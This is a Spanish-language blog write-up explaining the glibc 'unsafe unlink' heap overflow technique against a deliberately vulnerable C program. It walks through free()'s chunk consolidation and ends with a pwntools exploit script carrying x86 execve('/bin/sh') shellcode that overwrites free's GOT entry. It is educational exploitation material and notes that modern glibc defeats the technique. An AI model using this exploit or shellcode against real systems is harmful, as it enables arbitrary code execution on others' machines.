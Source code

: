 ```yaml
---
layout: post
title: Unlink SploitFUN
comments: true
categories: [Pwn, Writeups, SploitFUN]
---
```


Estudiando sobre Heap Overflows, llegué a la página de [sploitfun](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/), donde se explicaba sobre una técnica que abusa el algoritmo para consolidar trozos al ser liberados en un heap. Me pareció interesante, por lo que hice esta versión simplificada y en castellano del post.

# Overview

Vamos a explotar una técnica de *Heap Overflow* conocida como ***unlink*** ó ***unsafe unlink***.

# Reconocimiento

Se nos da el siguiente programa:

```c
/* 
 Heap overflow vulnerable program. 
*/

#include <stdlib.h>
#include <string.h>

int main( int argc, char * argv[] )
{
        char * first, * second;

first = malloc( 666 ); /*[1]*/
second = malloc( 12 ); /*[2]*/
if(argc!=1) 
	strcpy( first, argv[1] ); /*[3]*/

free( first ); /*[4]*/
free( second ); /*[5]*/

return( 0 ); /*[6]*/
}
```

Podemos ver que en la línea 3 se produce un *Heap Overflow* ya que se copia el input del usuario en `first` sin ninguna comprobación. El heap se vería así:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-1.png)

## Técnica [[unlink]]

> [_Unlink_](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c):  The main idea of this technique is to trick ‘glibc malloc’ to unlink the ‘second’ chunk. While unlinking GOT entry of free would get overwritten with shellcode address!! After successful overwrite, now when free is called by vulnerable program at line [5], shellcode would get executed. Not very clear? No problem, first lets see what ‘glibc malloc’ does when free gets executed.

Es decir, queremos hacer que el chunk `second` sea "unlinkeado", de forma que cuando se esté desenlazando, la entrada en la *GOT* de `free` se sobrescriba con un *shellcode* y al llamarse en la línea 5, se ejecute dicho shellcode.

### Explicación

Sin la influencia de un atacante, **free** hace lo siguiente (para chunks [*non mmaped*](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L10), es decir fruto de una llamada a `mmap`):

- Consolidar hacia detrás (**consolidate backwards**):
	- Comprueba si *el chunk previo está libre* - Si el actual tiene el bit `PREV_INUSE (P)` en 0. En nuestro caso no está libre (`first` tiene el bit activo). Por defecto, el chunk previo al primer chunk del heap tiene este bit activo aunque no esté libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk previo de su *bin*, se suman los tamaños del actual y el anterior, y se mueve el chunk pointer al chunk previo. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Consolidar hacia delante (**consolidate forward**):
	- Comprueba si *el siguiente chunk está libre* - Comprueba si el siguiente al siguiente tiene el bit `PREV_INUSE (P)` en 0, para ello avanza al siguiente chunk sumando `size` al chunk pointer, y repite la operación para llegar al siguiente. En nuestro caso, comprobará el bit del `top`, que dirá que el anterior (`second`) no está libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk siguiente de su *bin*, se suman los tamaños del actual y el siguiente. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Finalmente, en caso de realizarse una consolidación, se añade el resultado a la bin correspondiente.

# Explotación

Pongamos ahora, que mediante el [[Heap Overflow]] de la línea 3, un atacante sobrescribe las cabeceras de `second` de forma que quedan:

```
prev_size = PREV_INUSE bit a 0 (numero par)
size = -4
fd = dirección de free – 12
bk = dirección de un shellcode
```

Como hemos logrado manipular las cabeceras, al invocarse **free**, el comportamiento será diferente:

1. Como *no es mmaped*, trata de consolidar:
2. Consolidar hacia atrás:
	- Comprueba si el chunk previo está libre, en este casó lo está, pero al ser `first` el chunk siguiente al primer chunk del heap, tiene por defecto el bit `PREV_INUSE (P)` activado por defecto. Por tanto, no podemos consolidar hacia atrás.
3. Consolidar hacia delante:
	- Normalmente, el siguiente chunk al siguiente sería `top`. Sin embargo, como hemos sobrescrito el tamaño de `second` con `-4`, el siguiente chunk empezaría a partir de un offset de 4 bytes del `second`, tratando el campo `PREV_INUSE (P)` de `second` como el del siguiente chunk, como hemos puesto un valor par, interpretará que es 0, es decir que está libre.
	- Como está "libre", consolida hacia delante:
		1. Copia `fd` y `bk` de `second` en las variables `FD` y `BK`, en nuestro caso:  `FD = dirección de free - 12` y `BK = direccion de un shellcode`.
		2. `BK` se copia 12 bytes después de `FD`, en nuestro caso, apunta a la dirección en la *GOT* de *free*, de forma que en caso de llamar a *free*, se ejecutará el shellcode.
4. Finalmente se añade el chunk consolidado a una bin.

El heap después de introducirse los datos se vería:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-2.png)

Sabiendo todo esto, podemos crear un script en python utilizando *pwntools*:

```python
#!/bin/python3
from pwn import *

# Dirección de la función 'free' en la GOT (obtenida con objdump)
FUNCTION_POINTER = 0x0804978c 
# Dirección de la variable 'first' en el ejecutable vulnerable
CODE_ADDRESS = 0x0804a008 + 0x10 

# Nombre del binario vulnerable
VULNERABLE = './vuln'
DUMMY = 0xdefaced
PREV_INUSE = 0x1

# Shellcode
shellcode = (
    b"\xeb\x0a"          # Jump 10 bytes
    b"ssppppffff"        # Si no hacemos este salto, la llamada a unlink nos corrompe el shellcode
    b"\x31\xc0"          # xor eax, eax
    b"\x50"              # push eax
    b"\x68\x2f\x2f\x73\x68"  # push '//sh'
    b"\x68\x2f\x62\x69\x6e"  # push '/bin'
    b"\x89\xe3"          # mov ebx, esp
    b"\x50"              # push eax
    b"\x89\xe2"          # mov edx, esp
    b"\x53"              # push ebx
    b"\x89\xe1"          # mov ecx, esp
    b"\xb0\x0b"          # mov al, 11 (syscall execve)
    b"\xcd\x80"          # int 0x80 (syscall)
)

# Conexión al binario vulnerable
io = process(VULNERABLE)

# Generar payload
payload = b""
payload += p32(DUMMY)  # fd of first chunk
payload += p32(DUMMY)  # bk of first chunk
payload += p32(DUMMY)  # fd_nextsize of first chunk
payload += p32(DUMMY)  # bk_nextsize of first chunk
payload += shellcode   # Copiar shellcode

# Padding
padding_length = 680 - 4*4 - (4*4 + len(shellcode))
payload += b"B" * padding_length

# Campos del segundo chunk
payload += p32(DUMMY & ~PREV_INUSE)  # prev_size of second chunk
payload += p32(-4)  # size of second chunk
payload += p32(FUNCTION_POINTER - 12)  # fd del segundo chunk
payload += p32(CODE_ADDRESS)  # bk del segundo chunk (dirección del shellcode)

# Enviar el payload
io.sendline(payload)

# Interactuar con la shell
io.interactive()
```

Si ejecutamos, veremos que somos capaces de spawnear una shell.

Sin embargo, a día de hoy, existen diversas protecciones que prevendrán este ataque:

- **Double free check**
- **Invalid next size**
- **Corrupted double linked list**

Por lo que aunque en sistemas antiguos podamos realizarlo, para implementaciones más modernas debemos utilizar técnicas más sofisticadas que trataremos en próximos posts. Si te ha interesado y quieres profundizar en el tema, te recomiendo leer el paper [Vudo malloc tricks](http://phrack.org/issues/57/8.html).
